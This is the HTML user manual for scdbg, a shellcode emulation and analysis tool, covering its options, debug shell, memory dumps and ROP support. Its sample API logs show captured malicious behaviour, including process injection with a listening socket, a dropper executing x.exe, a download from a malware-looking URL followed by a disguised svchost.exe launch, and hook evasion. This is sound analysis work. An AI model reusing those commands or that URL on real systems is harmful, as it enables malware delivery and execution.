


<table width=600 style="position:absolute;left:20"><tr><td>

<font face=verdana size=4>

<a name="top"></a>

<table width=600 border=0>
<tr><td width=500><font size=+2><b> &nbsp; &nbsp; scdbg shellcode analysis</b></font></td>
	<td></td>
</tr>
</table>
<br><br>

<ul>
<li><b><a href="#what">What is scdbg?</a></b>
<li><b><a href="#do">What can scdbg do?</a></b>
<li><b><a href="#help">Help Videos</a></b>
<li><b><a href="#loading">Loading shellcode into scdbg </a></b>
<li><b><a href="#gui">GUI Launcher</a></b>
<li><b><a href="#find">Finding Shellcode Start Offset</a></b>
<li><b><a href="#dumps">Memory Dumps</a></b>
<li><b><a href="#verbosity">Verbosity levels</a></b>
<li><b><a href="#lookup">ordinal lookups</a></b>
<li><b><a href="#api">-api mode</a></b>
<li><b><a href="#inject">Process Injection Shellcode</a></b>
<li><b><a href="#format">File Format Exploits</a></b>
<li><b><a href="#file">File System Access</a></b>
<li><b><a href="#cfo">Create File Override -cfo option</a></b>
<li><b><a href="#mem">MemMonitor</a></b>
<li><b><a href="#patch">Patching</a></b>
<li><b><a href="#scmd">SCMD Files</a></b>
<li><b><a href="#dir">Directory Mode</a></b>
<li><b><a href="#bp">BreakPoints and Debug Shell</a></b>
<li><b><a href="#rop">ROP shellcode</a></b>
<li><b><a href="#sig">Signatures</a></b>
<li><b><a href="#hookcheck">Hook Checks and RET scanners</a></b>
<li><b><a href="#complete">Complete command line options</a></b>
<li><b><a href="#credits">Credits</a></b>
<li><b><a href="#source">Source Code</a></b>

</ul>

<br><br>


<a name="what"></a>
<font size=+3><b>What is scdbg? </font><a href="#top">top</a></b> 
<br><br>

scdbg is an open source, multi-platform, shellcode analysis application that runs shellcode through a virtual machine
that emulates a 32bit processor, memory, and basic Windows API environment. scdbg uses 
the <a href="http://libemu.carnivore.it" target=_blank>libemu library</a> to provide this environment. 
Builds of scdbg exist for both Windows and Unix users.
<br><br>

Scdbg homepage is: <a href="http://sandsprite.com/blogs/index.php?uid=7&pid=152" target=_blank>http://sandsprite.com/blogs/index.php?uid=7&pid=152</a>
<br><br>

Versions of scdbg are available for both *nix and Windows machines. The Windows version is the current
development branch and includes many features not found in the older gcc builds.
<br><br>

At the time of writing, this includes support for 245 opcodes, 13 Dlls, and 203 API hooks.
You can view these stats along with exactly which API are supported by using the -hooks
command line option. 
<br><br>

<center></center>
<br><br>

To see just the dll list use the -dllmap option.
<br><br>

<pre>
        kernel32 Dll mapped at 7c800000 - 7c8f6000  Version: 5.1.2600.5781
        ntdll    Dll mapped at 7c900000 - 7c9b2000  Version: 5.1.2600.5755
        ws2_32   Dll mapped at 71ab0000 - 71ac7000  Version: 5.1.2600.5512
        iphlpapi Dll mapped at 76d60000 - 76d79000  Version: 5.1.2600.5512
        user32   Dll mapped at 7e410000 - 7e4a1000  Version: 5.1.2600.5512
        shell32  Dll mapped at 7c9c0000 - 7d1d7000  Version: 6.0.2900.6018
        msvcrt   Dll mapped at 77c10000 - 77c68000  Version: 7.0.2600.5512
        urlmon   Dll mapped at 78130000 - 78258000  Version: 7.0.6000.17096
        wininet  Dll mapped at 3d930000 - 3da01000  Version: 7.0.6000.17093
        shlwapi  Dll mapped at 77f60000 - 77fd6000  Version: 6.0.2900.5912
        advapi32 Dll mapped at 77dd0000 - 77e6b000  Version: 5.1.2600.5755
        shdocvw  Dll mapped at 7e290000 - 7e401000  Version: 6.0.2900.5512
        psapi    Dll mapped at 76bf0000 - 76bfb000  Version: 5.1.2600.5512
</pre>


<a name="do"></a>
<font size=+3><b>What can scdbg do? </font><a href="#top">top</a></b>
<br><br>

 As scdbg runs shellcode, it will print out the API log of what the shellcode is attempting
 to do. By default, shellcode is not allowed to create files, or access the network. To try 
 to keep the shellcode running smooth, many API are spoofed with fake return values. 
<br><br>

 <pre>
	D:\>scdbg -f ./sc/dropz.sc
	Loaded 21b bytes from file ./sc/dropz.sc
	Initialization Complete..
	Max Steps: 2000000
	Using base offset: 0x401000
	
	4010a3  GetTempPathA(len=ff, buf=40121b) = 8
	4010c8  _lcreate(d:\temp\.com)
	4010de  _lwrite(h=4, buf=40111b)
	4010e8  _lclose(h=4)
	4010f8  WinExec(d:\temp\.com)
	401104  Sleep(0x7d0)
	401112  DeleteFileA(d:\temp\.com)
	40111b  ExitProcess(0)
	
	Stepcount 1616895
</pre>
<br><br>

 If the -i interactive mode is enabled, then shellcode will be allowed to access the network,
 and gain controlled ability to read/write files to disk. The file read/write ability is
 completely controlled by scdbg and influenced through several command line options to be 
 discussed latter in the File System Access section.
<br><br>

 <pre>
	D:\>scdbg -i -f ./sc/dropz.sc
	Loaded 21b bytes from file ./sc/dropz.sc
	Initialization Complete..
	Interactive Hooks enabled
	Max Steps: 2000000
	Using base offset: 0x401000
	
	4010a3  GetTempPathA(len=ff, buf=40121b) = 8
	4010c8  _lcreate(d:\temp\.com)
	        Interactive mode local file: ./sc/dropz.drop_0
	4010de  _lwrite(h=4fd2d0, buf=40111b)
	4010e8  _lclose(h=4fd2d0)
	4010f8  WinExec(d:\temp\.com)
	401104  Sleep(0x7d0)
	401112  DeleteFileA(d:\temp\.com)
	40111b  ExitProcess(0)
	
	Stepcount 1616895
 </pre>
 <br><br>

 scdbg has support for:
<br><br>

<ul>
<li>file format exploits which extract executables from parent files and drop them
 to disk. In scenarios such as this, you use the -f option to load the shellcode, and the
  -fopen option to give it access to the parent document. 
<br><br>

 <li>multistage shellcodes that load the second stage either via network sockets or from a 
 parent exploit document.
 <br><br>

 <li>process injection shellcode. New threads (including remote) will be run in the same 
 environment seamlessly for streamlined analysis.
 <br><br>

 <li>assembler level analysis of the shellcode 
 <li>debug shell with breakpoints, single stepping and memory analysis tools 
 <li>ability to redirect net socket connections to server of your choice 
 <li>ability to log access to raw dll memory and detect API memory patching 
 <li>creating memory dumps of decoded shellcode 
 <li>running analysis reports of shellcode run and memory access 
 <li>locating shellcode start offsets  
 <li>hex and disasm dumps of shellcode files 
 <li>ability to dynamically patch shellcode just before execution 
 <li>support for shellcode which uses structured exception handling 
 <li>can detect and run jmp api+5 type hooks. 
 <li>can handle memory allocs and shellcode which runs from allocs
</ul>
 
 <br><br>

<a name="help"></a>
<font size=+3><b>Help Videos </font><a href="#top">top</a></b>
<br><br>

Several help videos are available:
 	<ul>
	<li><a href="http://www.youtube.com/watch?v=jFkegwFasIw" target=_blank>scdbg Trainer 1 Basic Use</a>
	<li><a href="http://www.youtube.com/watch?v=HZE2c_If6hU" target=_blank>scdbg Trainer 2: Debug shell</a>
	</ul>
	<br><br>

<a name="loading"></a>
<font size=+3><b>Loading shellcode into scdbg: </font><a href="#top">top</a></b>
<br><br>

 The primary way to load shellcode into scdbg is with the -f option. This option takes
 a file path as an argument. For Linux users, this must be a binary file of the shellcode.
 <br><br>

 For Windows users, this can now also be a %u, %x, \x, or hex blob text representations of the
 shellcode which will be auto converted to binary before execution. The converters are pretty
 basic and while they will ignore new lines, tabs, quotes, and plus signs, they can not parse
 javascript variable assignments and the like. If in doubt, manually convert it to binary first,
 or use -conv [path] option to dump the converted data to disk as a binary file before running.  
 <br><br>

 For testing purposes, you can also load shellcode into memory using the patching functionality,
 or raw file loading capabilities along with the -nofile option. See the Patching section for
  more details.
 <br><br>

 
<a name="gui"></a>
<font size=+3><b>GUI Launcher: </font><a href="#top">top</a></b>
 <br><br>

  Perhaps the easiest way to run scdbg is to use gui_launcher.exe which is a graphical user 
  interface that presents the user with visual options to launch the scdbg console application. 
  The interface has checkboxes for most of the commonly used options, as well as the ability to 
  graphically browse for the shellcode file, or launch several options from a right click menu. 
  <br><br>
  Shellcode files can also be loaded by dragging and dropping them into the upper textbox.
  <br><br>
  If an option is not broken out to an individual checkbox, it is still available through the 
  Manual args text box which will be appended to the built up command line. The last command 
  line can also be copied to the clipboard for manual debugging.
  <br><br>

  The gui application can also create a file association so that .sc files open automatically 
  with it when they are double clicked. This is a very handy way to load shellcode files and 
  gives them a slick icon to boot.
  <br><br>

  <center></center>
 <br><br>
 
<a name="find"></a>
<font size=+3><b>Finding Shellcode Start Offset: </font><a href="#top">top</a></b>
<br><br>

	Sometimes you dont know where the shellcode starts, usually because there is a ROP gadget on the 
	front of the shellcode.	In these cases the best place to start is with the -findsc mode. Findsc 
	option will try to start execution at each offset in the file, and see how many steps it can 
	execute without an error. If it makes it to an API address, then it will also abort and assume
	a successful run. 
	<br><br>

	If there is only possible start offset found (or if the -auto flag is used), it will go ahead 
	and auto execute the shellcode from that point for a full report. If multiple possible start 
	offsets are found, it will list them sorted by step count for you to select. For Windows users, 
	a percent complete will be displayed to show progress. 
	
	<pre>
	scdbg -f c.sc -findsc
	Loaded 651 bytes from file c.sc
	Testing 1617 offsets  |  Percent Complete: 99%  |  Completed in 484 ms
	0) offset=0x4af        steps=MAX    final_eip=7c86250d   WinExec
	1) offset=0x4b5        steps=MAX    final_eip=40150b
	2) offset=0x4b8        steps=MAX    final_eip=401503
	3) offset=0x4ba        steps=MAX    final_eip=401505
	</pre>
	
	If execution reachs an API, it will be listed and moved to the top of the list. To select which
	start offset you would like to try, you enter the index listed not the actual offset (easier).
	If you just hit return, it will default to index 0.
	<br><br>
	
	If there are to many possible start offsets, you can also increase the minimum logging threshold 
	through the use of the -min option. 
	<br><br>

	Another technique to locate the start offset, is to use -dump to display a hex dump of the file. 
	Nops, Calls, and JMPs will be highlighted in yellow. You can then use -disasm and -foff to get 
	disasm listing of parts of the file. or use -foff to start execution where ever you want. 
	<br><br>
	
	<center></center>
	<br><br>

	The older gcc builds also support the -getpc command which uses a different internal mechanism
	built into libemu itself.
	<br><br>

<a name="dumps"></a>
<font size=+3><b>Memory Dumps </font><a href="#top">top</a></b>
<br><br>
	It is common for shellcode to decode itself in memory. In order to obtain a decoded
	copy of the shellcode after execution, you can use the -d dump option. 
	<br><br>
	
	If this mode is specified, it will scan memory after execution and compare it to the buffer
	that was initially loaded in. If changes are detected, it will dump memory to disk in the shellcodes
	parent directory.
	<br><br>
	
	If any new memory allocations were created during runtime, they too will be dumped to disk and
	named by base offset.
	<br><br>
	
	You can also create memory dumps and view hexdumps of memory at anytime during execution from the
	debug shell.
	
	<br><br>
	
<a name="verbosity"></a>
<font size=+3><b>Verbosity Levels </font><a href="#top">top</a></b>
<br><br>
 	scdbg supports 4 different verbosity levels to the output. By default verbosity = 0 and
	only initilization messages, API log output and errors will be displayed. Verbosity is increased
	by using the -v flag multiple times or by directly specifying it such as -vv, -vvv.
	
	Verbosity level table is below:
	
	<pre>
	none (v=0) = initilization messages, API log output and errors
	-v   (v=1) = 0 + assembler output and step count 
	-vv  (v=2) = 1 + register output 
	-vvv (v=3) = 2 + enters interactive debug shell and single step mode
	-vvvv(v=4) = 3 + stack dump on every step
	</pre>
	
	Once you enter the debug shell, you can manually re-specify the verbosity again using the v command.
	So if you wanted to continue execution after a breakpoint with asm listing showing you could enter the
	debug shell commands v 1 and then r for run. (You can also slow down execution to keep the asm coming at
	a readable pace by setting a t 3 timeout interval). The debug shell g (go) command will automatically set 
	v=0 and r
	<br><br>
	
<a name="lookup"></a>
<font size=+3><b>ordinal lookups </font><a href="#top">top</a></b>
<br><br>

	GetProcAddress does support ordinal lookups.
	<br><br>

	<pre>
		4012f9  GetProcAddress(kernel32.0x245) - LoadLibraryA by ordinal
		401691  LoadLibraryA(kernel32)
		4012f9  GetProcAddress(kernel32.0x50) - CreateFileA by ordinal
		4012f9  GetProcAddress(kernel32.0x391) - WriteFile by ordinal
		4012f9  GetProcAddress(kernel32.0x2a7) - ReadFile by ordinal
		4012f9  GetProcAddress(kernel32.0x15c) - GetFileSize by ordinal
		4012f9  GetProcAddress(kernel32.0x32) - CloseHandle by ordinal
		4012f9  GetProcAddress(kernel32.0x385) - WinExec by ordinal
		4012f9  GetProcAddress(kernel32.0x1cc) - GetTempPathA by ordinal
		4012f9  GetProcAddress(kernel32.0x30a) - SetFilePointer by ordinal
		4012f9  GetProcAddress(kernel32.0x10a) - GetCommandLineA by ordinal
		4012f9  GetProcAddress(kernel32.0xb7) - ExitProcess by ordinal
		401691  LoadLibraryA(shell32)
		4012f9  GetProcAddress(shell32.0x167) - ShellExecuteA by ordinal
		401709  GetCommandLineA() = 2531d0
		40142e  GetTempPath(len=104, buf=12f858) = 8
		...
	</pre>
	
	<br><br>

<a name="api"></a>
<font size=+3><b>-api mode </font><a href="#top">top</a></b>
	<br><br>

	The -api mode option will scan the main code body and any allocs just before termination
	looking for a continuous block of api pointers. If it can locate the API table, it will 
	dump it	so you can see what api the shellcode loads and what the relative offsets are. 
	<br><br>

	This is useful if the shellcode is crashing somewhere after lookups are done but before 
	it completes execution.
	<br><br>

	<pre>
	Scanning main code body for api table...
	Scanning stack for api table start=12fdbc sz=c
	Scanning runtime memory alloc 0  base=60000, sz=28
	
	        Found Api table at: 60000
	        table is eax based
	                [x + 0] = GlobalAlloc
	                [x + 4] = LoadLibraryA
	                [x + 8] = URLDownloadToCacheFileA
	                [x + 12] = keybd_event
                
     </pre>	
   <br><br>
  
   
 <a name="inject"></a>  
<font size=+3><b>Process Injection Shellcode: </font><a href="#top">top</a></b>
	<br><br>

 Process injection and CreateThread shellcode is handled all at once seamlessly. 
<br><br>

 <pre>
	401051  GetEnvironmentVariableA(name=ProgramFiles, buf=12fcf4, size=fc)  
	4010bb  CreateProcessA( C:\Program Files\Internet Explorer\iexplore.exe,  ) = 0x1269
	4010dd  VirtualAllocEx(pid=1269, base=0 , sz=644) = 600000
	4010f8  WriteProcessMemory(pid=1269, base=600000 , buf=40110f, sz=644, written=0)
	40110a  CreateRemoteThread(pid=1269, addr=600000 , arg=0, flags=0, *id=0)
	        Transferring execution to threadstart...
	600030  VirtualProtect(adr=600000, sz=1000, flags=40)
	60027f  LoadLibraryA(ws2_32.dll)
	6002ab  LoadLibraryA(wininet.dll)
	60027f  LoadLibraryA(ws2_32.dll)
	6002ab  LoadLibraryA(wininet.dll)
	60027f  LoadLibraryA(ws2_32.dll)
	6002ab  LoadLibraryA(wininet.dll)
	60027f  LoadLibraryA(ws2_32.dll)
	6002ab  LoadLibraryA(wininet.dll)
	6002e8  WSAStartup(101)
	600302  CreateThread(600536, 60000b) = 1
	        Transferring execution to threadstart...
	600547  socket(2, 1, 6) = 41
	600567  bind(h=41, port:5746, sz=10) = 15
	600575  listen(h=41) = 21
	600583  accept(h=41, sa=21, len=21) = 68
	6005a1  recv(h=68, buf=12fc70, len=4, fl=0)
	600644  ExitThread(0)
 </pre>

<br><br>

<a name="format"></a>
<font size=+3><b>File Format Exploits: </font><a href="#top">top</a></b>
<br><br>

   File format exploits such as PDF, Word, Excel that extract executables or second stage 
   shellcode from the parent exploit document can be easily analyzed by scdbg. These shellcode 
   typically call GetFileSize with incrementing file handles trying to find an open handle to the 
   parent document that the exploited application opened to load the document.
   <br><br>

   In scdbg, this handle can be provided by using the -fopen [path] option along with -i for 
   interactive hooks. This functionality is available in both the Linux and Windows builds.
   <br><br>

   <pre>
		$ ./sctest -f test.sc -fopen bad.pdf -i
		fopen(bad.pdf) = 4d565c
		Loaded 312 bytes from file test.sc
		Initialization Complete..
		Interactive Hooks enabled
		
		401083  GetFileSize(4) = 2031b
		401112  GlobalAlloc(sz=2031b) = 60000
		401118  SetFilePointer(hFile=4, dist=0, FILE_BEGIN)
		401132  ReadFile(hFile=4, buf=60000, numBytes=2031b)
		401147  CreateFile(x.exe)
		        Interactive mode local file: /tmp/WHhUmhtM
		401158  WriteFile()
		401176  WinExec(x.exe)
   </pre>
 <br><br>


<a name="file"></a>
<font size=+3><b>File System Access: </font><a href="#top">top</a></b>
	<br><br>

	By default, no file system access is allowed to the shellcode, and spoofed file handles and
	data are returned by the emulated API. 
	<br><br>

	Under limited circumstances, actual file system is allowed when specified by the command 
	line switches.
	<br><br>

	In -i interactive mode the shellcode is allowed to write files to disk, however scdbg 
	controls the location and file names. For Linux versions, this will always be in the temp 
	directory under random file names. 
	<br><br>

	For	newer Windows versions, they will be named sample_x.drop in the shellcodes home directory.
	The current	directory can be overridden with the -temp command line option.
	<br><br>

	Similarly, memory dumps taken with the -d option will be saved to the shellcode parent directory.
	<br><br>

	Shellcode can also access files you specify with the -fopen option. In these situations it will
	be provided	with a read only handle to the file you specify. This is used for file format shellcode 
	which want to read in data from the parent file. 
	<br><br>

	The -cfo option (CreateFileOverride) can also provide access similar to -fopen.
	<br><br>

	
<a name="cfo"></a>
<font size=+3><b>Create File Override option -cfo </font><a href="#top">top</a></b>
  <br><br>

   The -cfo option is used for shellcodes which do a download, then open the 
   downloaded file to decode it. In these scenarios, you can use -cfo [path] to have scdbg direct
   the first CreateFile call to open the file you specify. Subsequent CreateFile calls (if -i is 
   enabled) will be used to drop the decoded file to disk. its a bit of a hack but works and is 
   useful.
	<br><br>
   <pre>
    scdbg -f happy.sc -fopen Zoll.exe_ -i -cfo -norw
	fopen(Zoll.exe_) = 7c4
	Loaded 410 bytes from file happy.sc
	Initialization Complete..
	Interactive Hooks enabled
	Max Steps: 2000000
	Using base offset: 0x401000

	401056  LoadLibraryA(User32)
	401075  LoadLibraryA(urlmon)
	401094  LoadLibraryA(shell32)
	4010c7  MultiByteToWideChar(http://img.ckb2b.org/Zoll/Zoll.exe)
	4010ed  URLDownloadToCacheFileW(http://img.ckb2b.org/Zoll/Zoll.exe, buf=4014c2)
	40110e  CreateFileW(c:\URLCacheTmpPath.exe) = 7c4
	401120  GetFileSize(7c4, 0) = 8800
	401158  CreateFileW(c:\URLCbcheTmpPath.exe) = 7a8
	        Interactive mode local file happy.drop_0
	40117d  SetFilePointer(hFile=7c4, dist=0, 0, FILE_BEGIN) = 0
	4011f7  CloseHandle(7c4)
	401200  CloseHandle(7a8)
	4012c9  WinExec(cmd.exe /c copy /B "c\RCcemPt.x" /B %temp%\svchost.exe /y && start %temp%\svchost.exe)
	4012ce  ExitProcess(0)
	</pre>

	
<a name="mem"></a>
<font size=+3><b>MemMonitor </font><a href="#top">top</a></b>
<br><br>

	scdbg supports a memory monitor that will watch for access to DLL memory regions as well as 
	to the PEB. it can automatically detect read/writes to these regions and report on it. This 
	allows us to easily find API patching, and which module list is used from the PEB. Memory
	monitor -mm is enabled automatically for -r report mode, as well as a more verbose and 
	immediate output available through the -mdll option as shown below.
	<br><br>

	 <center></center>
	<br><br>

	
<a name="patch"></a>
<font size=+3><b>Patching: </font><a href="#top">top</a></b>
<br><br>

  There are several times during testing, development, and analysis where the need for patching 
  code into the emulated environment became necessary. There are now several mechanisms in place, 
  all of which can be used to write test code to memory and can patch shellcode loaded with -f 
  just before execution.
  <br><br>

  The first patching mechanism implemented was the -patch [file] command. This option uses a 
  specially constructed binary patch file format that can hold multiple patches per file. Patch 
  files are generated with the patchgen.exe utility available in the git hub source archive in the 
  /support folder. A blog post with example file can be downloaded here: 
  <br><br>

  <a target=_blank href="http://sandsprite.com/blogs/index.php?uid=7&pid=177">http://sandsprite.com/blogs/index.php?uid=7&pid=177</a>
  <br><br>

  Another way to load raw data into emu memory is with the -raw 0xBase-fpath. This command will 
  load the file specified by fpath into memory directly as is at 0xBase address. 
  <br><br>

  ex: -raw 0x403000-c:\test.bin 
  <br><br>

  This command was implemented as a lazy way to load dll memory dumps for testing with ROP 
  exploits. It is not PE aware. 
  <br><br>

  The last two commands are -wint 0xBase-0xVal and -wstr 0xBase-Str . In some examples you may 
  see them aliased as -spoke and -poke. -wint is short for write int, and is designed to write an 
  integer value into memory at 0xBase. -wstr is short for write string, is can write a string 
  into memory at 0xBase address. 
  <br><br>

  -wstr is capable of writing ascii, or binary data into memory. ex:
   scdbg /wstr 0x401000-0x64A130000000060fa00731C026A13000000090 -vvv -nofile
   <br><br>

   
<a name="scmd"></a>   
<font size=+3><b>SCMD Files:  </font><a href="#top">top</a></b>
<br><br>

   scdbg has special handleing of .scmd files. These files are a sort of scdbg script file that 
   allow you to place each command line option on its own line in a text file, and also supports 
   # style comments per line. An example scmd file is available here:
   <br><br>

   <a target=_blank href="http://sandsprite.com/blogs/files/rop_test_2.zip">http://sandsprite.com/blogs/files/rop_test_2.zip</a>
   <br><br>

   scmd files can also be launched by dragging and dropping them onto the scdbg icon.
   <br><br>

   
<a name="dir"></a>
<font size=+3><b>Directory Mode: </font><a href="#top">top</a></b>
  <br><br>

  You can run scdbg across an entire directory of shellcode in a batch mode if you like. It will 
  process all .sc files in the directory you specify with the -d [folder] command line. This mode 
  will output one file per shellcode file it finds. You can also have all the results output to a 
  single file with the (override) of the -r report option.
  <br><br>

  If you want report mode on each file use the (override of) the -v option (now meaning Verbose 
  in this case) Directory mode also supports the -u unlimited steps command, but be careful this 
  could cause hangs.
  <br><br>

  You can also run directory mode by dragging and dropping a folder onto the scdbg icon.
<br><br>


<a name="bp"></a>
<font size=+3><b>BreakPoints and Debug Shell: </font><a href="#top">top</a></b>
	<br><br>

	The debug shell is a basic interface that allows you pause shellcode execution, and enter manual
	 commands to analyze instructions, registers, and memory. You can enter the debug shell at any 
	 time during execution by hitting CTRL-C
	<br><br>
	
	There are also several ways to enter the debug shell at specific times such as:
	<br><br>

	<pre>
	  /ba hexnum            break above - breaks if eip > hexnum
	  /bp hexnum            set breakpoint on addr or api name (same as -laa <hexaddr> -vvv)
	  /bs int               break on step (shortcut for -las <int> -vvv)
	  /b0                   break if 00 00 add [eax],al
	</pre>

	You can also have it automatically enter the debug shell if it encounters an error during 
	execution with -e 3	which means error mode set verbosity to 3.
	<br><br>
	
	If you want to enter the debug shell right at the beginning of execution you can set 
	verbosity to 3 with -vvv
	<br><br>

	The debug shell has a number of commands available. When in the debug shell, type ? to see 
	a full listing of commands. The current list of commands is:
	
	<pre>
	dbg> ?
        ? - help, this help screen, h also works
        v - change verbosity (0-4)
        g - go - continue with v=0
        s - step, continues execution, ENTER also works
        c - reset step counter
        r - execute till return (v=0 recommended)
        u - unassembled address
        b - break at address
        m - reset max step count (-1 = infinate)
        e - set eip
        w - dWord dump,(32bit ints) prompted for hex base addr and then size
        d - Dump Memory (hex dump) prompted for hex base addr and then size
        x - execute x steps (use with reset step count)
        t - set time delay (ms) for verbosity level 1/2
        k - show stack
        i - break at instruction (scans disasm for next string match)
        f - dereF registers (show any common api addresses in regs)
        j - show log of last 10 instructions executed
        o - step over
        +/- - basic calculator to add or subtract 2 hex values
        .lp - lookup - get symbol for address
        .pl - reverse lookup - get address for symbol (special: peb,dllmap,fs0)
        .api - scan memory for api table
        .seh - shows current value at fs[0]
        .segs - show values of segment registers
        .reg - manually set register value
        .dllmap - show dll map
        .poke1 - write a single byte to memory
        .poke4 - write a 4 byte value to memory
        .savemem - saves a memdump of specified range to file
        q - quit
	</pre>

<a name="rop"></a>
<font size=+3><b>ROP shellcode: </font><a href="#top">top</a></b>
<br><br>

	Many modern shellcodes will include ROP gadgets at the beginning of the shellcode. These 
	usually just setup memory for the main shellcode that follows it to run. Since the main shellcode 
	does not start at the beginning of the payload,	you often have to locate the shellcode start
	offset. For help with this, see the Finding Shellcode Start Offset section	of the manual.
	<br><br>

	scdbg does have some support for analyzing ROP shellcode chains. using -dllmap you can see the 
	dlls (and version) that scdbg has built in support for. Note that only NTDLL and Kernel32 have 
	the full opcodes included which ROP payloads often use. (Its not worth megabytes upon megabytes 
	of distribution size for the others and even these two only have opcodes included for hook detectors 
	and return address scanners)
	<br><br>

	A ROP shellcode can be executed using the -rop flag. You may have to load other dlls into memory 
	using -raw. It was an interesting experiment to add this mode, but probably not of much use.
	In practice, just use -findsc to find the real shellcode start offset and your fine. If its truly 
	a ROP only shellcode, it will take more work to use scdbg to analyze it than necessary. 
	<br><br>

	More info is available on my blog here:

	<ul>
	<li><a target=_blank href="http://sandsprite.com/blogs/index.php?uid=7&pid=261">http://sandsprite.com/blogs/index.php?uid=7&pid=261</a>
	<li><a target=_blank href="http://sandsprite.com/blogs/index.php?uid=7&pid=262">http://sandsprite.com/blogs/index.php?uid=7&pid=262</a>
	</ul>
	<br><br>

		
<a name="sig"></a>
<font size=+3><b>Signatures </font><a href="#top">top</a></b>
<br><br>

	scdbg supports a basic signature engine. This is used for -r report mode. You can view the built
	in signatures through the -sigs option. The -disasm option can be added to show the disassembly 
	of each signature.
	<br><br>

<a name="hookcheck"></a>
<font size=+3><b>Hook checks and RET scanners</font><a href="#top">top</a></b>
	<br><br>
	Since scdbg does not use runtime hooking to intercept API calls, there are no embedded
	JMP instructions at API starts to be detected. There are however some shellcodes which 
	do not try to detect hooks, and instead always run their own prolog and do a jmp api+5
	<br><br>
	
	Scdbg can detect and handle these shellcodes automatically:
	<br><br>
	
	<pre>
	4010eb  GetTempPathA(len=100, buf=12e048) = 8
	        jmp CreateFileA+5 hook evasion code detected! trying to recover...
	40111f  CreateFileA(d:\temp\\scvhost.exe) = 4
	40113c  WriteFile(h=4, buf=401214, len=0, lpw=12e048, lap=0) = 1
	401142  CloseHandle(4)
	        jmp WinExec+5 hook evasion code detected! trying to recover...
	401186  WinExec(cmd.exe /c "%temp%\scvhost.exe")
	</pre>
	
	Some shellcode will also scan dll memory for ret addresses to use to bypass some security software.
	scdbg also includes support for these types of shellcodes (they usually scan ntdll or kernel32 which both
	support this)
	<br><br>
	
<a name="complete"></a>
<font size=+3><b>Complete command line options: </font><a href="#top">top</a></b>
	<br><br>

	This document is not a complete listing of all command line options. Many can be figured out just
	from the brief help shown from the applications -h help screen.
	<br><br>

	for a complete listing of command line options, run scdbg -h (or with no arguments) to get a dump
	of its compile date, and the options its supports. All command line switches can be run with either a
	- or a / prefix. ex: /h or -h
	<br><br>

	scdbg does not have version numbers, instead its compile date is shown on the help screen.
	<br><br>

	When in the debug shell, type ? to see a complete listing of commands the debug shell supports.
	<br><br>

<a name="credits"></a>
<font size=+3><b>Credits </font><a href="#top">top</a></b>
<br><br>

	<pre>
	scdbg Developer: David Zimmer [dzzie@yahoo.com]
	Homepage:        <a href="http://sandsprite.com/blogs/index.php?uid=7&pid=152" target=_blank>http://sandsprite.com/blogs/index.php?uid=7&pid=152</a>

	libemu library was designed and written by: 
	 * Paul Baecher
	 * Markus Koetter

	special thanks go to:
	 * jt / nologin.org for libdasm
	 * Tony Finch for http://dotat.at/prog/lists/list.h
	</pre>
	
<a name="source"></a>
<font size=+3><b>Source </font><a href="#top">top</a></b>
<br><br>

<b><font size=+1>Windows Native Source/Binaries</font></b> (201 hooks - current development branch)
<ul>
<li><a target="_blank" href="https://github.com/dzzie/VS_LIBEMU/blob/master/CHANGES">Change log</a>
<li><a target="_blank" href="http://sandsprite.com/CodeStuff/scdbg.zip">Win32 Binaries</a>
<li><a href="https://github.com/dzzie/VS_LIBEMU" target=_blank>https://github.com/dzzie/VS_LIBEMU</a>
<li>git clone git://github.com/dzzie/VS_LIBEMU.git
</ul>

<br><br>

<b><font size=+1>*nix/Cygwin Source/Binaries</font></b> (100 hooks - inactive)

The older gcc compatible and cross-compilable version is available here:
(tested with cygwin/gcc 3.4 & 4.3, RHEL 2.6/ gcc 4.1)
<ul>
<li><a href="http://sandsprite.com/CodeStuff/gcc_scdbg.zip">win32 binaries</a>
<li><a target="_blank" href="https://github.com/dzzie/SCDBG" target=_blank>https://github.com/dzzie/SCDBG</a>
<li>git clone git://github.com/dzzie/SCDBG.git
</ul>
	 
	 
	 
 
</td></tr></table>